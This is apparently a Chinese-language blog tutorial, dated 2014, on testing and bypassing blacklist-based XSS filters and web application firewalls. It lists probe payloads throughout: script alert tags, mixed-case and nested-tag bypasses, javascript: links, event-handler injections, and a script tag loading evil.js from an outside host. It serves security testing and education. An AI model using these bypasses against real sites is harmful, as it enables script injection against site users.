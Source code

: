 ```yaml
---
layout: post
title: Bypass xss过滤的测试方法
date: 2014-09-15 11:21:04
tags: xss
---
```

0x00 背景

本文来自于《Modern Web Application Firewalls Fingerprinting and Bypassing XSS Filters》其中的bypass xss过滤的部分，前面有根据WAF特征确定是哪个WAF的测试方法给略过了，重点来看一下后面绕xss的一些基本的测试流程，虽说是绕WAF的，但这里还是根据WAF中的正则缺陷来绕过测试方法，并不是协议上问题，所以呢，基本可以通用于其他xss过滤的场景。方便新手们比较快速的了解到测试xss的一些基本的方法。

0x01 Bypassing黑名单

大多数的场所是用的黑名单来做过滤器的，有三种方式绕过黑名单的测试：

1、暴力测试（输入大量的payload，看返回结果）
2、根据正则推算
3、利用浏览器bug
1)尝试插入比较正常的HTML标签，例如：`<b>`，`<i>`，`<u>`来看一下返回页面的情况是怎样的，是否被HTML编码了，或者标签被过滤了。

2)尝试插入不闭合的标签，例如：`<b`，`<i`，`<u`，`<marquee`然后看一下返回响应，是否对开放的标签也有过滤。

3)然后测试几个XSS的payload，基本所有的xss过滤器都会进行过滤的：
```
<script>alert(1);</script>
<script>prompt(1);</script>
<script>confirm(1);</script>
<scriptsrc="http://rhainfosec.com/evil.js">
```
看返回响应，是过滤的全部，还是只过滤了部分，是否还留下了alert,prompt,confirm字符，再尝试大小写的组合：
```
<scRiPt>alert(1);</scrIPt>
```
4)如果过滤器仅仅是把`<script>`和`</script>`标签过滤掉，那么可以用
```
<scr<script>ipt>alert(1)</scr<script>ipt>
```
的方式来绕过，这样当`<script>`标签被过滤掉，剩下的组合起来刚好形成一个完整的payload。

5)用`<a href`标签来测试，看返回响应
```
<a href="http://www.google.com">Clickme</a>
```
`<a`标签是否被过滤 `href`是否被过滤 `href`里的数据是否被过滤
如果没有数据被过滤，插入javascript协议看看：
```
<a href="javascript:alert(1)">Clickme</a>
```
是否返回错误 javascript的整个协议内容是否都被过滤掉，还是只过滤了javascript字符 尝试下大小写转换
继续测试事件触发执行javascript：
```
<a href="rhainfosec.com" onmouseover=alert(1)>ClickHere</a>
```
看onmouseover事件是否被过滤。测试一个无效的事件，看过滤规则：
```
<a href="rhainfosec.com" onclimbatree=alert(1)>ClickHere</a>
```
是完整的返回了呢，还是跟onmouseover一样被干掉了。
